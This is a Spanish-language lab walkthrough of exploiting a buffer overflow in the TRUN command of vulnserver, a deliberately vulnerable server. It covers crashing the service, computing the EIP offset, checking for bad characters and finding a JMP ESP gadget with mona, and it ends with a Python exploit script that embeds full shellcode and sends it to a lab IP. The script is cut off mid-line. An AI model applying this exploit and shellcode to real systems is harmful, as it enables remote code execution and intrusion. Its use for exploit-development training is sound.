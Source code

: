 # Buffer-Overflow TRUN function

[https://github.com/stephenbradshaw/vulnserver](https://github.com/stephenbradshaw/vulnserver)

vulnserver tiene 4 funciones en las que declara un buffer, cada buffer es distinto en cada función:

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%201.png)

vulnserver tiene una funcionalidad que se llama TRUN la cual utiliza la funcion3 vista anteriormente, en esta condición podemos ver que se declara un buffer de 3000 en la que hay otra condición que para que se cumpla tiene que haber un ‘.’ en el input del usuario.

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%202.png)

Si reflejamos esto en la practica, le pasamos a vulnserver esta cadena:

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%203.png)

Miramos en el Inmunity Debugger y hemos conseguido crashear vulnserver y sobrescribir el EIP

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled.png)

Calculamos el offset con la herramienta de metasploit `patter_create`

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%201.png)

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%202.png)

Miramos en el inmunity debugger el valor del EIP

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%203.png)

Utilizamos la herramienta `pattern_offset` para ver el numero de caracteres en el cual empezamos a sobrescribir el EIP

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%204.png)

hemos sacado el offset de vulnserver y sabemos que tenemos que pasarle 2006 A para sobrescribir el EIP.

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%205.png)

Probamos a sobrescribir el EIP con 4 “B”.

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%206.png)

Ahora comprobamos si hay algún bad_chars, de la siguiente forma:

Enviamos los bad_chars después de sobrescribir el EIP:

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%207.png)

Vamos al inmunity debugger y vemos si en el ESP hay algún bad_char

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%208.png)

Como podemos ver en el ESP no hay ningún bad character, el único que da siempre fallos es el carácter nulo \x00\, nuestro payload no puede tener este carácter.

Ahora tenemos que buscar un modulo vulnerable, con el inmunity debugger podemos encontrarla gracias al modulo mona, ejecutando el comando `!mona modules`

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%209.png)

Vemos que tiene un modulo que no tiene ninguna protección añadida:

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%2010.png)

Ahora podemos meter código ensamblador en este modulo, para ello lo haremos de la siguiente forma:

Queremos hacer un jump al ESP, con la herramienta `nasm_shell` podemos sacar el valor que tiene que tener para que realice un jmp esp

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%2011.png)

Con mona buscamos las instrucciones que queremos con el siguiente comando:

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%2012.png)

Tenemos varios resultados, podemos probar con cualquiera de ellos, ahora en vez de escribir las 4 B, tenemos que escribir la dirección de esos resultados.

ponemos en pausa la dirección que hemos utilizado para poder comprobarlo.

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%2013.png)

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%2014.png)

EIP tiene el valor que queremos, ahora solo tenemos que crear nuestro exploit.

ahora puedo empezar a añadir mi código malicioso, de la siguiente manera.

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%2015.png)

Creamos nuestro script y añadimos el shellcode:

```python
#!/usr/bin/python3

from pwn import *
from struct import pack

#CTRL+C
def def_handler(sig,frame):
	print("\n[!]Saliendo...")
	sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

if __name__ == '__main__':
	p1 = log.progress("Buffer-Overflow Vulnserver")

	shellcode =  b""
	shellcode += b"\xb8\x31\xa1\x07\xc8\xda\xc8\xd9\x74\x24\xf4"
	shellcode += b"\x5a\x33\xc9\xb1\x52\x83\xea\xfc\x31\x42\x0e"
	shellcode += b"\x03\x73\xaf\xe5\x3d\x8f\x47\x6b\xbd\x6f\x98"
	shellcode += b"\x0c\x37\x8a\xa9\x0c\x23\xdf\x9a\xbc\x27\x8d"
	shellcode += b"\x16\x36\x65\x25\xac\x3a\xa2\x4a\x05\xf0\x94"
	shellcode += b"\x65\x96\xa9\xe5\xe4\x14\xb0\x39\xc6\x25\x7b"
	shellcode += b"\x4c\x07\x61\x66\xbd\x55\x3a\xec\x10\x49\x4f"
	shellcode += b"\xb8\xa8\xe2\x03\x2c\xa9\x17\xd3\x4f\x98\x86"
	shellcode += b"\x6f\x16\x3a\x29\xa3\x22\x73\x31\xa0\x0f\xcd"
	shellcode += b"\xca\x12\xfb\xcc\x1a\x6b\x04\x62\x63\x43\xf7"
	shellcode += b"\x7a\xa4\x64\xe8\x08\xdc\x96\x95\x0a\x1b\xe4"
	shellcode += b"\x41\x9e\xbf\x4e\x01\x38\x1b\x6e\xc6\xdf\xe8"
	shellcode += b"\x7c\xa3\x94\xb6\x60\x32\x78\xcd\x9d\xbf\x7f"
	shellcode += b"\x01\x14\xfb\x5b\x85\x7c\x5f\xc5\x9c\xd8\x0e"
	shellcode += b"\xfa\xfe\x82\xef\x5e\x75\x2e\xfb\xd2\xd4\x27"
	shellcode += b"\xc8\xde\xe6\xb7\x46\x68\x95\x85\xc9\xc2\x31"
	shellcode += b"\xa6\x82\xcc\xc6\xc9\xb8\xa9\x58\x34\x43\xca"
	shellcode += b"\x71\xf3\x17\x9a\xe9\xd2\x17\x71\xe9\xdb\xcd"
	shellcode += b"\xd6\xb9\x73\xbe\x96\x69\x34\x6e\x7f\x63\xbb"
	shellcode += b"\x51\x9f\x8c\x11\xfa\x0a\x77\xf2\xc5\x63\x9d"
	shellcode += b"\x80\xae\x71\x61\x84\x95\xff\x87\xec\xf9\xa9"
	shellcode += b"\x10\x99\x60\xf0\xea\x38\x6c\x2e\x97\x7b\xe6"
	shellcode += b"\xdd\x68\x35\x0f\xab\x7a\xa2\xff\xe6\x20\x65"
	shellcode += b"\xff\xdc\x4c\xe9\x92\xba\x8c\x64\x8f\x14\xdb"
	shellcode += b"\x21\x61\x6d\x89\xdf\xd8\xc7\xaf\x1d\xbc\x20"
	shellcode += b"\x6b\xfa\x7d\xae\x72\x8f\x3a\x94\x64\x49\xc2"
	shellcode += b"\x90\xd0\x05\x95\x4e\x8e\xe3\x4f\x21\x78\xba"
	shellcode += b"\x3c\xeb\xec\x3b\x0f\x2c\x6a\x44\x5a\xda\x92"
	shellcode += b"\xf5\x33\x9b\xad\x3a\xd4\x2b\xd6\x26\x44\xd3"
	shellcode += b"\x0d\xe3\x64\x36\x87\x1e\x0d\xef\x42\xa3\x50"
	shellcode += b"\x10\xb9\xe0\x6c\x93\x4b\x99\x8a\x8b\x3e\x9c"
	shellcode += b"\xd7\x0b\xd3\xec\x48\xfe\xd3\x43\x68\x2b"
	
	buffer = b"A"*2006 
	buffer += pack("<I", 0x625011bb) # JMP ESP
	buffer += b"\x90"*24
	buffer += shellcode
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect = s.connect(('192.168.234.133', 9999))
	s.send(b'TRUN .' + buffer)
	p1.status("Payload sen
```

Lo ejecutamos y vemos si ganamos acceso:

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%2016.png)